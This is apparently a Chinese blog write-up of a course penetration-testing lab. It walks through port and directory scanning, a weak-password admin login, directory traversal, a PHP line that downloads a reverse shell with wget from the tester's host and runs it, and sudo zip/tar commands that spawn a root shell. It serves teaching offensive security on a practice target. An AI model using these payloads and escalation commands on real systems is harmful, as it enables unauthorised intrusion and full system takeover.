

51CTO的网课，本篇利用nmap搜索开放端口，nikto、dirb挖掘敏感目录找到后台登录界面，使用owasp_zap扫描出目录遍历漏洞，上传执行php反弹shell，获得低权shell，最后利用zip/tar提权拿到root权限。

本篇使用工具owasp_zap。

<!-- more -->

# 使用命令

## zip提权

``` bash
sudo zip exploit.zip exploit -T --unzip-command="sh -c /bin/bash"
#-T 表示测试exploit.zip的完整性
# --unzip-command 与-T 一起使用，可以指定自定义命令用于解压exploit.zip
#可以自定义用于解压exploit.zip的命令，自定义解压命令是以root权限执行的，指定为sh -c /bin/bash, 获取一个root权限的shell
```

## tar提权

``` bash
sudo tar cf /dev/null exploit --checkpoint=1 --checkpoint-action=exec="/bin/bash"
#–checkpoint-action 选项是提权点，可以自定义需要执行的动作，指定为exec=/bin/bash，获取一个root权限的shell
```

# 渗透记录

1. nmap扫描靶机IP地址开放端口，一个web服务，`dirb`挖掘`80`端口web信息：

``` bash
nmap -sV 192.168.2.138
dirb http://192.168.2.138/
```


2. 访问登录页面，尝试弱口令**admin**成功登录，里面有一个表有两个用户的MD5密码，在线解密了尝试登录ssh，但是失败了：


3. 上`owasp_zap`扫到了目录遍历漏洞：


4. 测试该目录，确实返回了相应信息：


5. 把目录改成后台看到的表的目录，成功返回了表的内容：


6. 新建一个表，插入一段下载反弹shell的TEXT：

``` php
<?php system("cd /tmp;wget http://192.168.2.205:8000/shell.php; chmod +x shell.php;php shell.php");?>
```


7. 编辑反弹shell，修改地址和端口，python开启简单http服务：

``` python
python -m "SimpleHTTPServer"
```


8. 开启nc监听，修改目录为反弹shell目录。获得低权shell：


9. `/home/zico`目录下有`wordpress`文件夹，一般里面的配置文件有数据库密码：


10. 可以尝试用配置文件里的数据库密码ssh远程登录：



11. ssh登录成功，依旧低权，不过可以tar/zip提权：


12. zip/tar提权，获得root权限：

``` bash
sudo zip exploit.zip exploit -T --unzip-command="sh -c /bin/bash"

sudo tar cf /dev/null exploit --checkpoint=1 --checkpoint-action=exec="/bin/bash"
```


# 参考资料

1. [2020发布 CTF基础入门/CTF教程零基础 渗透测试/web安全/CTF夺旗【整套教程】](https://www.bilibili.com/video/BV1SJ411h7VW)